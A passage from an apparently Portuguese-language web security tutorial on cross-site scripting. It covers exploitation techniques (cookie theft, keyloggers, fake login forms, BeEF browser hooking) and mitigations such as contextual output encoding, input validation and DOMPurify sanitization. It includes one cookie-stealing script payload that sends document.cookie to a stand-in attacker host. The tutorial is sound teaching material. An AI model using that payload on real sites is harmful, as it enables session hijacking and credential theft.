 - **Ferramentas de Referência**:
    - [Burp Suite by PortSwigger](https://portswigger.net/burp)
    - [OWASP ZAP (Zed Attack Proxy)](https://www.zaproxy.org/)
## Exploração de Vulnerabilidades XSS

Uma vez que uma vulnerabilidade de XSS é confirmada, a fase de exploração visa demonstrar o impacto real da falha, indo além da simples prova de conceito como `alert(1)`. O objetivo final é executar ações maliciosas no contexto da sessão da vítima. A exploração mais clássica é o **roubo de cookies de sessão**, onde o acesso ao `document.cookie` permite ao atacante obter o identificador de sessão da vítima e, consequentemente, sequestrá-la. Um payload típico para essa finalidade, `<script>document.location='http://atacante.com/log?c='+document.cookie;</script>`, envia o cookie para um servidor controlado pelo atacante, que pode então usá-lo para se passar pela vítima.

No entanto, as possibilidades de exploração são muito mais amplas. Um atacante pode injetar um **keylogger** em JavaScript para capturar todas as teclas digitadas pelo usuário, enviando credenciais e outras informações sensíveis. Outra técnica poderosa é a **manipulação da interface (UI Redressing)**, onde o script malicioso altera a página para enganar o usuário, por exemplo, injetando um formulário de login falso para capturar credenciais. É também possível forçar o navegador da vítima a realizar **ações arbitrárias** em seu nome, como alterar a senha, realizar compras ou enviar mensagens, através de scripts que disparam requisições (usando `fetch()` ou `XMLHttpRequest`) para funcionalidades da aplicação. A técnica mais avançada é o **hooking do navegador** com frameworks como o **BeEF (The Browser Exploitation Framework)**. Neste caso, o payload de XSS "engancha" o navegador da vítima, conectando-o a um painel de controle do atacante, que pode então lançar módulos de exploração em tempo real, desde captura de tela e áudio até a exploração de vulnerabilidades do próprio navegador. Em um contexto de pentest ou CTF, a exploração bem-sucedida frequentemente envolve o encadeamento criativo de XSS com outras falhas ou a busca por uma "flag", que pode estar no cookie de um administrador, no código-fonte de uma página restrita ou ser obtida após a execução de uma ação específica.
## Estratégias de Mitigação

A prevenção eficaz do Cross-Site Scripting exige uma abordagem fundamentada no princípio de que toda entrada de usuário deve ser considerada não confiável. A responsabilidade primária recai sobre os desenvolvedores, que devem implementar múltiplas camadas de proteção para neutralizar vetores de ataque. A estratégia mais crítica e eficaz é a **codificação de saída contextual (contextual output encoding)**. Antes de renderizar qualquer dado dinâmico na página, é imperativo codificá-lo de acordo com o contexto específico onde será inserido. Por exemplo, a codificação para dados que aparecerão diretamente no corpo do HTML (onde `<` se torna `&lt;`) é diferente da codificação necessária para dados inseridos em atributos HTML, em blocos de script JavaScript ou em propriedades CSS. A **OWASP XSS Prevention Cheat Sheet** serve como um guia de referência fundamental para a aplicação correta dessas regras de codificação.

Como uma primeira linha de defesa, a **validação de entrada (input validation)** deve ser aplicada. Esta técnica consiste em impor regras estritas sobre os dados que a aplicação aceita, preferencialmente utilizando uma abordagem de lista de permissões (allow-list) que define exatamente os caracteres e formatos permitidos, rejeitando todas as demais entradas. Embora a validação de entrada possa prevenir muitas injeções simples, ela não deve ser a única defesa, pois aplicações complexas frequentemente precisam aceitar uma gama variada de caracteres que podem ser explorados em contextos inesperados. Para cenários que exigem a renderização de HTML rico fornecido pelo usuário, como em editores de texto, a simples codificação não é suficiente. Nesses casos, é essencial o uso de bibliotecas de **sanitização de HTML**, como a **DOMPurify** para JavaScript. Essas bibliotecas analisam o HTML de entrada e removem ativamente todos os elementos e atributos potencialmente maliciosos.
